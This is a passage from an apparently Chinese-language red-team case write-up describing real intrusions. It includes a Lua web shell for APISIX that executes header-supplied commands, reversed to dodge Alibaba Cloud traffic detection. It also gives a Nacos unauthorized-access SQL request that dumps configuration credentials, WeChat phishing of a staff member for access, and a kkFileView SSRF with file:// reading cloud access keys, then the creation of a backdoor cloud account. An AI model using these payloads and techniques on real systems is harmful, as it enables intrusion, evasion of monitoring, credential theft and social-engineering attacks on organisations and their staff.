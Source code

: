 
![img](assets/1701668693-c1e4daeb39445f30876d755e84c68ca7.png)

但是后面执行命令，有的时候会被阿里云给拦掉，于是构造lua脚本时把传参和命令输出做了倒转，防止被流量检测到

```lua
local file=io.popen(string.reverse(ngx.req.get_headers()['Authenication']),'r')
local output=file:read('*all')
file:close()
ngx.say(string.reverse(output))
```

由于该apisix集群部署管理了28个子域的服务，所以成功拿下28个子域Rce

![img](assets/1701668693-0c3b8a96828ba165972c37a64a120f4f.png)

## 案例三、某开发商Nacos未授权访问读取配置信息到精准钓鱼进入内网

利用nacos未授权访问，从CONFIG.INFO读取config信息

很幸运，其中包含公有云数据库凭据

```php
/nacos/v1/cs/ops/derby?sql=select+*+from+CONFIG_INFO+st
```

![img](assets/1701668693-56429475b735d0fc277af6213bf036cd.png)

可惜试了一下都配了策略，没法外网直接连过去

但是...却发现了config信息中，出现了某系统的一个手机号  
![img](assets/1701668693-5295e52571b1409f3a94c8c220ee8efe.png)

随后加上微信钓鱼，以系统升级为由，成功拿到权限

![img](assets/1701668693-5b371abaf19387b868743d5d57279f17.png)

![image.png](assets/1701668693-acee69a00d99fa1c893ae9f3af2ca315.png)

## 案例四、某国企-从一个任意文件读取到SSO沦陷

某国企子域的资产，发现使用了kkfileview开源项目

翻了一下历史issue，存在全回显的ssrf，在目标上验证成功  
![img](assets/1701668693-5bfa9f69992f42927e47b0bcb10b5bcd.png)

![image-20231120151135911](assets/1701668693-2738968ab660b71c06a71c9c8c4a886a.png)

同时很幸运，这个点支持file://协议，随后通过file协议读取到网站配置文件，拿到了目标的AK,SK

![img](assets/1701668693-5715dda6dfc6876e41fc3b20244934a6.png)

使用阿里云的Cli创建后门账户，接管目标公有云  
![img](assets/1701668693-dbf08a6dddfa0ee9388a009eaf00505e.png)
